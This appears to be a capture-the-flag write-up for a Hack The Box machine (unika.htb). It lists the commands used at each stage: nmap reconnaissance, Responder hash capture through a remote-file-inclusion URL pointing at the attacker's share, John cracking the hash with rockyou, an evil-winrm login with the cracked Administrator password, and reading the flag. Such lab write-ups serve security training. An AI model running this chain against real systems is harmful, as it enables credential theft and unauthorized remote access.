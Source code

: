 # reconnaissance
## nmap scan
- [nmap scan](./nmap.txt)
- nmap -sV unika.htb -oN nmap.txt
- Apache web server on port 80/tcp
- WinRM server on port 5985/tcp

# resource development
## responder tool
- [NTLM hash](./stlm_hash.png)
- responder -I tun0
- listening on the interface connected to the LAN of the target for LLMNR (Link Local Multicast Neighbor Resolution)
- so that we can get the username and HASH (MD4) used to authenticate via NTLM

# initial access
## remote-file-intrusion
- [RFI command](./remote_file_intrusion.png)
- http://unika.htb/index.php?page=//10.10.14.78/test
- the responder logs are stored in: /usr/share/responder/log
- the hash inside the log is saved inside [NTLM hash] (./hash.txt)

## hash crack
- [NTLM hash cracked](./hash_cracking.png)
- john --wordlist=/usr/share/wordlist/seclists/Passwords/Leaked-Databases/rockyou-75.txt ./hash.txt

## WinRM access
- [WinRM shell access](WinRM_access.png)
- evil-winrm -i unika.htb -u Administrator -p badminton

# privilege escalation
- [root flag](root_flag.png)
- cat C:\Users\mike\Desktop\flag.txt
